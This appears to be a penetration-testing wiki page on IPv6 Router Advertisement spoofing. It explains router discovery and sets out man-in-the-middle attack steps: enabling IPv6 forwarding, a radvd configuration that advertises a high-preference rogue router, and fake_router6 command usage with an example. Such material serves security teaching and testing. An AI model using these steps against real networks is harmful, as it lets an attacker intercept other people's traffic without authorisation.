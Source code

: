 # Router Advertisement Flooding

## Router Advertisement

#### An attacker can introduce an IPv6 router on the network by responding to IPv6 client Router Solicitation (RS) messages:

1. IPv6 nodes will regularly send ICMPv6 RS messages to discover the presence of IPv6 routers on the network using the anycast address FF02::2 (all routers)
2. IPv6 routers, upon receiving an ICMPv6 RS message, will send a multicast message on the network in the form of an ICMPv6 Router Advertisement (RA). RA messages are sent to the all multicast nodes address FF02::1.
3. When the attacker wants to establish himself as the IPv6 default router, he sends his own RA message to the all nodes multicast address. The attacker's RA message specifies that his router has the highest preference, taking precedence over all prior legitimate RA messages.
4. The victim, having observed the attacker's RA message with high preference, sends all IPv6 traffic destined for remote networks to the attacker.

## Exploitation

The IPv6 router MitM attack is useful in environments where the attacker wants to establish a MitM attack for all the LAN IPv6 victims, forwarding traffic to the legitimate IPv6 router or to the attacker's own IPv6 connection to the internet (possibly tunneled through an IPv4 connection).

#### To implement the IPv6 router MitM attack, the attacker must first configure IPv6 forwarding using the Linux sysctl tool, as shown. Next, the attacker should manually add a default route for use in forwarding traffic from victims to the legitimate router with the Linux "ip route add" command, as shown.

### radvd

Multiple options are available for impersonating an IPv6 router, including the THC-IPV6 tool "fake\_router6."

A more robust approach is to simply configure the Linux IPv6 router software "radvd" (http://www.litech.org/radvd) with the configuration directives specified on this page.

Once the attacker is ready to start the MitM attack, he only needs to start the radvd process, identifying the desired configuration file with the "-C" argument.

```
sysctl -w net.ipv6.conf.all.forwarding=1

# specify the legitimate IPv6 address for the
# cat >/etc/radvd.conf

interface eth0 {
        AdvSendAdvert on;
        # Process should send advertisements
        AdvDefaultPreference high; # Highest advertised preference
        MinRtrAdvInterval 3;
        # 3 second minimum between ads
        MaxRtrAdvInterval 4;
        # 4 second maximum between ads
        prefix fc00:660:0:1::/64 { # Address space and prefix for clients to use
        };
};
^D

radvd -C /etc/radvd.conf
```

### fake\_router6

fake\_router6 is a tool inside THC-IPv6 tools bundled inside Kali linux to test exploit & attack weaknesses & protocol complexity in ipv6 & icmp6 protocols. As the name suggests, it’s from the Hackers’ Choice. Before we begin the attack, lets get under the hood for a minute. In IPv4, you know what is “ARP”, here in IPv6, its replaced by ND expanded as Neighbor Discovery. ND combines the functionality of ARP,ICMP, ICMP-Redirect & router discovery which is present in IPv4. There are several other advanteges & additional functionalities for ND like to discover neighbouring devices & hosts, link the layer2 (link layer) addresses, advertise the presence of a host/router etc. There are basically 5 types of ND messages.

* **Router Solicitation (ICMPv6 type 133)**
* **Router Advertisement (ICMPv6 type 134)**
* **Neighbor Solicitation (ICMPv6 type 135)**
* **Neighbor Advertisement (ICMPv6 type 136)**
* **Redirect (ICMPv6 type 137)**

```
fake_router6 [-HFD] interface network-address/prefix-length [dns-server [router-ip-link-local [mtu [mac-address]]]]

-H adds hop-by-hop
-F fragmentation header
-D dst header
```

#### example:

```
fake_router6 eth0 <replace with your interface> bad::00/64 <replace with your fake n/w>
```

![](<../../.gitbook/assets/image (280).png>)

![](<../../.gitbook/assets/image (295) (1).png>)
